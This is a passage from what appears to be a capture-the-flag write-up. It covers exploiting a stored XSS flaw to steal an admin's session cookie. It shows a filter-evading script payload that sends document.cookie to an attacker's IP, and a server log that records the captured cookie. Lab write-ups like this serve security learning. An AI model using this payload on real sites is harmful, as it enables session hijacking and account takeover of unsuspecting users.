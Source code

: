 <figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

XSS works, let's try to steal the admin cookie with `OOB XSS` :

We can use the following payload:

```js
&lt;sscriptcript&gt;var i = new Image(); i.src = "http://10.14.21.28:8000/" + document.cookie;&lt;/sscriptcript&gt;
```

We need to set up a python server and wait two minutes for the admin to review the page:

```python
10.10.20.176 - - [04/Jul/2025 23:27:28] code 404, message File not found

10.10.20.176 - - [04/Jul/2025 23:27:28] "GET /login=hayley_is_admin HTTP/1.1" 404 -
```

We got our cookie:

```
hayley_is_admin
```

Since we got our admin cookie, we need to know in where to utilize it, if we go to the dashboard, nothing changes:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>
